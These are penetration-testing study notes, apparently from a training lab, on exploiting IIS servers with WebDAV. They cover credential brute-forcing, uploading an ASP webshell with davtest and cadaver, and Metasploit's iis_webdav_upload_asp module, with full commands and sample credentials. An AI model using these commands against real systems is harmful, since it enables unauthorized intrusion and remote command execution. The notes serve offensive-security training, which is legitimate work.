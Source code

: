 #### IIS 
- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
- It can be used to ***host websites/web apps*** and provides administrators with a robust GUI for managing websites.
- IIS can be used to ***host static and dynamic web pages*** developed in ASP.NET and PHP.
- Typically configured to run on ports 80/443.
- Supported executable file extensions:
	- .asp
	- .aspx
	- .config
	- .php

#### WebDAV
- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
- WebDAV runs on top Microsoft IIS on port 80/443.
- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

#### WebDAV Exploitation
- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
- After obtaining legitimate creds, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

#### Tools
- **davtest** - used to scan, authenticate and exploit a WebDAV server.
- **cadaver** - cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV server.

***
***
# Practical

##### Scan against the target
```
nmap target
nmap -p80 -sV --script http-enum target 
```

##### davtest tool 
If the /WebDAV path is secured with basic authentication, we will receive 401 error.
```
davtest -url http://target/webdav
davtest -auth bob:password_123321 -url http://target/webdav
```

##### cadaver tool 
Upload a .asp backdoor on the target machine
```
cadaver http://target/webdav
```

##### asp webshells
Pre-made backdoors are present in '/usr/share/webshells/asp/' 
```
put /usr/share/webshells/asp/webshell.asp
```

Access the backdoor using the Firefox browser.

```
type C:\flag.txt
```

***
### Metasploit
##### Scan the target
```
nmap -sV Target
nmap -p80 -sV --script http-enum target
```

We have found the WebDAV directory with 401 error (password protected).
Note: If http-enum script would take longer than expected then run **dirb** tool to find WebDAV directory.
**Command: dirb target**
##### Davtest tool
```
davtest -url http://target/webdav
```

We can see the `/webdav` path is secured with basic authentication.

##### Msfconsole
```
search iis_webdav
use exploit/windows/iis/iis_webdav_upload_asp
options
set httpusername bob
set httppassword password_123321
set rhosts demo.ine.local
set path /webdav/metasploit%RAND%.asp
run
```